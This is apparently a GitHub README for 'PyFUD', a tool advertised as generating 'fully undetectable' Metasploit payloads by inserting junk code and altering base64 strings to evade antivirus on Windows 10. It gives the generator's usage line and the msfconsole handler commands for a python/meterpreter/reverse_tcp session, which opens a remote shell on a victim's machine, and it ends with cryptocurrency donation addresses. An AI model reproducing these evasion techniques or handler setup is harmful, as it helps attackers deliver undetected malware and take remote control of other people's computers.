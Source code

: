 # PyFUD
fully Undetectable payload generator for metasploit  
Usage:
`pyfud.py --host HOST --output OUTPUT file name --port PORT`  
the payload is made fully Undetectable by adding some junk code into the main program and some changes are made on the base64 string
tested on windows 10  
metasploit setup:  
`
msfconsole
`
  
`
use multi/handler
`
  
`
set payload python/meterpreter/reverse_tcp
`
  
`
set lport {port used to make payload}
`
  
`
set lhost {your local ip adress or just 0.0.0.0}
`
  
`
run
`

  
Feel free, any cent counts will really help :)  
BTC address:168vrx5UuJNfNuvoYe6qhmAZCvePW4VPj2  
usdt address (binance trc20): TKP9Ch8JELiqn7n5VdfGMNqJwW2wpZAYi3
